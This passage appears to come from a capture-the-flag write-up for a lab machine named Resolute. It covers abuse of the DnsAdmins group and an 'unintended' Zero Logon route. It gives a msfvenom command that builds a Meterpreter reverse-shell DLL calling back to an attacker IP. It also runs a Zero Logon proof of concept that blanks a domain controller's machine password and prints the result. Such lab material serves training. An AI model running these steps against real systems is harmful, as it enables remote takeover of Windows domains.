 * I have not ever seen the <mark style="color:yellow;">DnsAdmins</mark> group before so I do some research on it

{% embed url="https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/from-dnsadmins-to-system-to-domain-compromise" %}

### Exploiting DnsAdmin Privileges

* The first thing we need to do is craft a malicious DLL which will grant us arbitrary code-execution in the context of SYSTEM

msfvenom:

```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.16.4 LPORT=443 -f dll > evil.dll
```

## Unintended Pathway (Easy Mode) -- Zero Logon

Github PoC:

{% embed url="https://github.com/risksense/zerologon.git" %}

1. Obtain NetBIOS name with nmap scan (Resolute)
2. Clone Repo -- Run sudo pip install -r requirements.txt if it does not work
3. chmod +x set empty pw&#x20;
4. Run Zero Logon PoC:

{% code overflow="wrap" %}
```
python3 set_empty_pw.py Resolute 10.129.60.74

Performing authentication attempts...
==========================================================================================================================================================================================================================================================================================================================================================================================================================================================================================================================================================================================================
NetrServerAuthenticate3Response 
ServerCredential:               
    Data:                            b'#S;8\xc9WG\xfa' 
NegotiateFlags:                  556793855 
AccountRid:                      1000 
ErrorCode:                       0 


server challenge b'#]\xb4\x0e\xce\x87\x90\xcc'
NetrServerPasswordSet2Response 
ReturnAuthenticator:            
    Credential:                     
        Data:                            b'\x01\x9d\xf7\x00\xa7\xb6Ht' 
    Timestamp:                       0 
ErrorCode:                       0 



Success! DC should now have the empty string as its machine password.
```
{% endcode %}

